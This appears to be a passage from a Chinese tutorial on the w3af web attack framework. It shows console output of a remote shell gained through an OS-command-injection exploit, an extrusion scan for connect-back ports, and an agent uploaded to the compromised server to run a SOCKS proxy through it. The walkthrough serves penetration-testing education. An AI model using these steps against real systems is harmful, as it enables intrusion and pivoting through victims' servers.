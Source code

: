 ```bash
Please use the interact command to interact with the shell objects.
w3af/exploit>>> interact 0
Execute "end_interaction" to get out of the remote shell.
Commands typed in this menu will run on the remote web server.
w3af/exploit/os_commanding-0>>>
```

目前来看并没有新的内容，我们配置了 `w3af` ，用它扫描和利用了漏洞。

```bash
w3af/exploit/os_commanding-0>>> payload w3af_agent
Usage: w3af_agent <your ip address>
w3af/exploit/os_commanding-0>>> payload w3af_agent 172.1.1.1
Please wait some seconds while w3af performs an extrusion scan.
The extrusion scan failed.
Error: The user running w3af can't sniff on the specified interface. Hints: Are you root?
Does this interface exist?
Using inbound port "8080" without knowing if the remote host will be able to connect back.
```

当你使用普通用户运行 `w3af` 时，上面的错误信息就会出现。原因很简单，当你以普通用户权限运行 `w3af` 时，你不能嗅探(sniff)流量，因此也无法进行一次成功的 extrusion scan 。一个成功的 extrusion scan 看看起来像下面这样：

```bash
Please wait some seconds while w3af performs an extrusion scan.
ExtrusionServer listening on interface: eth1
Finished extrusion scan.
The remote host: "172.10.10.1" can connect to w3af with these ports:
- 25/TCP
- 80/TCP
- 53/TCP
- 1433/TCP
- 8080/TCP
- 53/UDP
- 69/UDP
- 139/UDP
- 1025/UDP
The following ports are not bound to a local process and can be used by w3af:
- 25/TCP
- 53/TCP
- 1433/TCP
- 8080/TCP
Selecting port "8080/TCP" for inbound connections from the compromised server to w3af.
```

在两种场景下(普通用户和超级用户)，接下来的步骤都是这样：

```bash
Starting w3afAgentClient upload.
Finished w3afAgentClient upload.
Please wait 30 seconds for w3afAgentClient execution.
w3afAgent service is up and running.
You may start using the w3afAgent that is listening on port 1080. All connections made
through this SOCKS daemon will be relayed using the compromised server.
```
